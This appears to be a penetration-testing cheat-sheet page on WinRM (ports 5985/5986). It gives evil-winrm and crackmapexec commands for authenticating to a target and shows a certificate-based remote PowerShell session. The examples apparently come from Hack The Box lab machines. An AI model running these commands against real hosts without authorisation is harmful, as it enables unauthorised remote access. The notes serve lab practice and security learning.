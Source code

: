 # WinRM - 5985,5986

## 5985 - WinRM

### Evil-WinRM

Connect to the target:

```bash
evil-winrm -i <IP> -u 'username' -p 'password'
```

### crackmapexec

Authenticate to the target:

```bash
crackmapexec winrm 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'
```

## 5986 - WinRM with SSL

First, create a private key and a signed certificate. 

{% embed url="https://wixnic.gitbook.io/hacknotes/cryptography/certificates" %}

We can use a signed certificate and private key to connect with WinRM with SSL.

```bash
❯ evil-winrm -S -c certnew.cer -k filename.key -i 10.10.10.103

Evil-WinRM shell v3.1

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Warning: SSL enabled

Info: Establishing connection to remote endpoint

Enter PEM pass phrase:
*Evil-WinRM* PS C:\Users\amanda\Documents> whoami
htb\amanda
*Evil-WinRM* PS C:\Users\amanda\Documents>
```





